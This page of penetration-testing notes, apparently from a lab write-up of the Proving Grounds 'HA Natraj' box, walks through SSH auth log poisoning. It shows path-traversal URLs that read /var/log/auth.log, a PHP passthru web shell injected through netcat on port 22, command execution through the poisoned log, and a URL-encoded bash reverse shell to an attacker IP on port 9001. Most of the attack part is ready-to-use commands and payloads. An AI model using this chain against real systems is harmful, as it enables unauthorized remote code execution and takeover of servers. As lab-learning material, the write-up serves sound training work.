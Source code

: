 ```yaml
---
layout: default
title: Log Poisoning
parent: Web Exploits
nav_order: 2
---
```


# Log Poisoning

---

## SSH Auth Log Poisoning

Check if _/var/log/auth.log_ is visible.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log
```

![ssh_log](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_log.png)

Process for testing SSH auth log poisoning and RCE:

1. Netcat verbose to the target on port 22
2. Send malicious php code
3. Verify SSH auth log poisoning successful
4. Execute RCE with PHP cmd shell via poisoned log

Send PHP cmd shell through SSH via Netcat.

```bash
# netcat verbose to target on port 22
nc -nv 192.168.202.80 22

# send malicious php code
pwn_code/<?php passthru($_GET['cmd']); ?>
```

Verify SSH auth log is poisoned.

![ssh_poison](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_poison.png)

Execute RCE with PHP cmd shell via poisoned log.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=id
```

![cmd_rce](../../../assets/images/ctfs/proving_grounds/ha_natraj/cmd_rce.png)

Get reverse shell with URL encoded bash one-liner

```bash
URL: 192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

![rev_shell](../../../assets/images/ctfs/proving_grounds/ha_natraj/rev_shell.png)
